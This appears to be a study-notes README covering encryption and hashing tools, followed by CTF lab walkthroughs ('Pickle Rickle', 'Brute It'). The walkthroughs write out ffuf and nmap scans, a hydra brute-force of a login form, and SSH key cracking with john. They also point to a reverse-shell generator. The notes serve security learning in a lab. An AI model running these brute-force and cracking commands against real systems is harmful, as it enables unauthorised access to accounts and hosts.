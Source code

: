 # Disk Encryption Using Veracrypt
```
Download and install
Select created an encrypted file container
Mount the disk to encrypt it
```

# File and Text Message Encryption using Cryptoforge
```
Download and install
Right click file and select encrypt
Right click to decrypt too (Have to set passphrase within Cryptoforge)
Can En/Decrypt text too with Cryptoforge Text
```

# Calculating Hashes on Windows with different tools
```
Hashcalc
MD5 Calculator
Hash my files
```

# Cryptanalysis using Cryptool
```
Download and install
```

# Pickle Rickle
```
Add to /etc/hosts (if required)
View Page source
Check /robots.txt
>ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.100.162/FUZZ -mc all -c -fc 404 -e .php,.html,.txt 
Optional to exclude file size responses (false positives -fs 1062)
If you have command prompt can do reverse shell https://www.revshells.com/
Locations of interest - home, root
Passwords located: https://www.cyberciti.biz/faq/where-are-the-passwords-of-the-users-located-in-linux/
```

# Brute It
```
>sudo nmap -sS -sC -sV -O -p- -A -T5 10.10.200.80
>nmap -sS -sV 10.10.200.80
>ffuf -u http://10.10.200.80/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
Go to /admin
View Page Source
>hydra -l admin -P /usr/share/wordlists/john.lst 10.10.200.80 http-form-post "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid” -V -I -t 4 
Download key
>ssh2john file.txt > hash.txt
>john hash.txt -w=/usr/share/wordlists/john.llst
>john hash.txt -w=/usr/share/wordlists/rockyou.txt
>mv file.txt id_rsa.pem
>chmod 600 id_rsa.pem
>ssh -i id_rsa.pem john@{IP}
>password from crack before
```